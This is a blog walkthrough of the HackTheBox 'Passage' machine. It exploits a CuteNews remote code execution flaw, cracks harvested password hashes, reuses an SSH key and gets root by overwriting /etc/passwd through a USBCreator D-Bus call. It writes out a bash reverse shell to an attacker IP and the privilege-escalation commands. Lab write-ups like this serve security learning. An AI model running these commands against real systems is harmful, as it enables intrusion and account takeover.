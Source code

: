 ```yaml
---
id: 3544
title: 'Hackthebox &#8211; Passage'
date: '2022-04-15T12:35:39+00:00'
author: vedanttare
excerpt: 'In this post, we are going to be pwning "Passage" from Hackthebox.'
layout: post
guid: 'http://vedanttare.com/?p=3544'
permalink: /hackthebox-passage/
powerkit_share_buttons_transient_facebook:
    - '1692134038'
powerkit_share_buttons_transient_pinterest:
    - '1727901985'
image: 'http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-11.44.31-AM-1-496x166.png'
categories:
    - Writeups
---
```


![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-11.40.54-AM.png)

IP: 10.10.10.126

More information:

Potential usernames:  
Kim Swift  
Sid Meier  
Paul Coles : paul@passage.htb  
In the blog id=11 is by admin with after hovering over the admin tag it says — nadav@passage.htb

/etc/apt/sources.bak file readable.

## Enumeration

Looking at the webpage we see that it is a cms and the application running is CuteNews.

![](http://vedanttare.com/wp-content/uploads/2022/04/cutenews-webpage.png)

Searching on google we find a rce exploit for it.

![](http://vedanttare.com/wp-content/uploads/2022/04/cutenews-exploit.png)

Running the exploit we get a shell with www-data.

![](http://vedanttare.com/wp-content/uploads/2022/04/execute-rce.png)

Then, using a rev shell payload we get a connection on our machine to run more commands and spawn a pty shell using python.

`kali@starscorp1o:~/htb/active_boxes/passage$ sudo python3 48800.py<br></br>[sudo] password for kali:`

```
       _____     __      _  __                     ___   ___  ___ 
      / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
     / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/ 
     \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/ 
                            ___  _________                        
                           / _ \/ ___/ __/                        
                          / , _/ /__/ _/                          
                         /_/|_|\___/___/                          
```

`[->] Usage python3 expoit.py`

`Enter the URL> http://10.10.10.206/`

`Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN`

`7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1<br></br>4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88<br></br>e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd<br></br>f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca`

`4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc`

`=============================`

`Registering a users`

`[+] Registration successful with username: VYbDl6D9sk and password: VYbDl6D9sk`

`=======================================================`

`Sending Payload`

`signature_key: 6ec99478e182f49816cb960348faf43e-VYbDl6D9sk<br></br>signature_dsi: a0ca4b62c742b3e1a5661c1847ba9edb`

`logged in user: VYbDl6D9sk`

`Dropping to a SHELL`

`command > /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9000 0>&1'`

## Privilege Escalation

As we have shell as www-data, now by checking /etc/passwd, we see that we have 2 more users:

- nadav
- paul

Let’s start enumerating the root directory of cutenews. There were a lot of php files present.

![](http://vedanttare.com/wp-content/uploads/2022/04/php-files.png)

After tons and tons of enumeration in multiple files. We found bas64 encoded strings from various php files. One was of nadav user and many others but, we know that there are only 2 users paul and nadav , so we need to find files that have session info of these users. We then get nadav’s and paul’s session files with id, username and a password hash in it.

Now, we try to crack nadav’s hash but it doesnt work.

![](http://vedanttare.com/wp-content/uploads/2022/04/nadav-pass-not-work.png)

 We now try to crack paul’s hash and BOOM!!!…We get a password:  
`atlanta1`

![](http://vedanttare.com/wp-content/uploads/2022/04/paul-pass.png)

Now that we have paul’s password we can just su into that user. We go and grab the user.txt file.

Cracking paul’s password:

![](http://vedanttare.com/wp-content/uploads/2022/04/cracking-pauls-password.png)

p`aul@passage:~$ cat user.txt<br></br>cat user.txt<br></br>0d58c8c9c9701f91c2fb5c850c7c92b4`

Now we have just look around in the home directory by using ls -la to list hidden files and check in .ssh for keys to nadav. We see that id\_rsa.pub shows the public key of nadav but we are in paul’s home directory, so this might mean that they share public and private keys. Checking in id\_rsa for private key we see that there is a private.

![](http://vedanttare.com/wp-content/uploads/2022/04/idrsa.png)

We copy that onto our machine and do chmod 600 and try to login with ssh:

`ssh -i ssh_private_key nadav@10.10.10.206`

![](http://vedanttare.com/wp-content/uploads/2022/04/login-as-nadav.png)

And boom we get a shell as nadav!!!!!!

Now we have to get root. (This is the tough part!)

After looking all over the internet and enumerating the home directory of nadav we see that there is an ibus program and after searching on google we come across one article on whole of google:

`USBCreator D-Bus Privilege Escalation in Ubuntu Desktop`

![](http://vedanttare.com/wp-content/uploads/2022/04/ibus-privesc.png)

D-Bus Privilege Escalation article:

![](http://vedanttare.com/wp-content/uploads/2022/04/article-ibus.png)

This article explains all the steps to get root by abusing the usbcreator application which uses a tool called dd which in turn in used to write to disks using python, but there is no sanitization check as to what and where the file is being written and it also doesn’t ask for the password for sudo program when used.

Hence we use this to get root:  
We overwrite the /etc/passwd file by generating a openssl passwd for root user and placing it in the /etc/passwd file:

`kali@starscorp1o:~/htb/active_boxes/passage$ openssl passwd alice<br></br>wBl9BxxE0AUq6`

![](http://vedanttare.com/wp-content/uploads/2022/04/openssl-pass.png)

Then overwriting the file using the following command given in the article:

`nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/passwd /etc/passwd true<br></br>()`

Command used in the article:

![](http://vedanttare.com/wp-content/uploads/2022/04/command-used-article.png)

Command we used:

![](http://vedanttare.com/wp-content/uploads/2022/04/ibus-command.png)

/`etc/passwd` file has been overwritten:

![](http://vedanttare.com/wp-content/uploads/2022/04/etcpasswd-overwrite.png)

The parenthesis is not included in the command it is displayed after the command is executed. And we just su to root:

`nadav@passage:~$ su root<br></br>Password:<br></br>root@passage:/home/nadav# id<br></br>uid=0(root) gid=0(root) groups=0(root)<br></br>root@passage:/home/nadav# whoami<br></br>root<br></br>root@passage:/home/nadav# hostname<br></br>passage<br></br>root@passage:/home/nadav# id<br></br>uid=0(root) gid=0(root) groups=0(root)`

![](http://vedanttare.com/wp-content/uploads/2022/04/got-the-root.png)

And BOOM!! We get root!!!!

Now, we can grab the user flag:

![](http://vedanttare.com/wp-content/uploads/2022/04/user-flaggg.png)

Hence we can grab the root flag:

`root@passage:~# cat root.txt<br></br>67ab751857e4be0ad3f2186c9b6f4164`

![](http://vedanttare.com/wp-content/uploads/2022/04/check-root-flag.png)

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Postman](https://vedanttare.com/hackthebox-postman/)

<iframe class="wp-embedded-content" data-secret="rUO077kPM8" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-postman/embed/#?secret=NDOo3RZ5ZQ#?secret=rUO077kPM8" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Postman” — VEDANT TARE" width="600"></iframe></div></figure>